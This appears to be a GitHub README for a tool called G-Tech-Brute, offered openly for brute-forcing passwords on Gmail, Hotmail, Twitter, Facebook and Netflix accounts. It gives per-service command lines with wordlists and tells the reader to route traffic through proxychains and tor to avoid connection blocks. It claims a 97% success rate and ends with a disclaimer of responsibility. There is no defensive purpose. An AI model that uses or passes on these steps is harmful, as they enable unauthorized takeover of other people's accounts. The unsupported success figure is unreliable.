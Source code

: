# G-Tech-Brute

### I am NOT taking any responsibility!

## Brute Force for Social Accounts

Hacking toolkit for multible social media accounts. Brute force will give you the correct password almost everytime (97%) If you follow the steps below. Works with out proxies well but sometimes it gives a error like this:

```bash 
File "/usr/lib/python3.10/smtplib.py", line 739, in login
    (code, resp) = self.auth(
  File "/usr/lib/python3.10/smtplib.py", line 642, in auth
    (code, resp) = self.docmd("AUTH", mechanism + " " + response)
  File "/usr/lib/python3.10/smtplib.py", line 432, in docmd
    return self.getreply()
  File "/usr/lib/python3.10/smtplib.py", line 405, in getreply
    raise SMTPServerDisconnected("Connection unexpectedly closed")
smtplib.SMTPServerDisconnected: Connection unexpectedly closed
 ```
 # Don't let that happen, let's set proxies.
 --------
 
 ## Setting up the proxy
 
 After clonning the repository in **/root** go to-
 ```bash 
 /root/G-Tech/Proxy/Proxy-List.txt
 ```
 Copy 4-5 proxy and go to terminal/terminal emulator
 
 ```bash 
 nano /etc/proxychains4.conf
 ```
 
 Set the proxies as raw. Then reboot your device and "service tor start", now we are fully ready to start hacking!
 --------
 
 # Starting the Tool
 
 G-Tech doesn't need dependencies pr requirements. All it needs is YOU to brute force.
 go to:
 
 ```bash
 /root/G-Tech
 ```
 Then open a terminal there and write:
 
 ```bash
 python3 G-Tech.py -h
 ```
 It bring you a help menu, now you start brute-forcing;
 
 ## Gmail Brute Forcing
 
 ```bash
 python3 G-Tech.py -g/--gmail accounthere@gmail.com -l wordlist here
 python3 G-Tech.py -g/--gmail accounthere@gmail.com -l single password here
 ```
 ## Hotmail Brute Forcing
 
 ```bash
 python3 G-Tech.py -t/--hotmail accounthere@hotmail -l wordlist here
 python3 G-Tech.py -t/--hotmail accounthere@hotmail -l single password here
 ```
 
 ## Twitter Brute Forcing
 
 ```bash
  python3 G-Tech.py -T/--twitter accountnamehere -l wordlist here
  python3 G-Tech.py -T/--twitter accountnamehere -l single password here
  ```
  
  ## Facebook Brute Forcing
  
  ```bash
  python3 G-Tech.py -f/--facebook accountnamehere/username -l wordlist here
  python3 G-Tech.py -f/--facebook accountnamehere/username -l single password here
  ```
  
  ## Netflix Brute Forcing
  VPN Recommended (Like ProtonVPN, OpenVPN or NordVPN)
  
  ```bash
  python3 G-Tech.py -n/--netflix accountnamehere -l wordlist here
  python3 G-Tech.py -n/--netflix accountnamehere -l single password here
  ```
  
  That was all for me, I hope you won't anything illegal, because I am NOT taking any responsibility!
  
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 

 
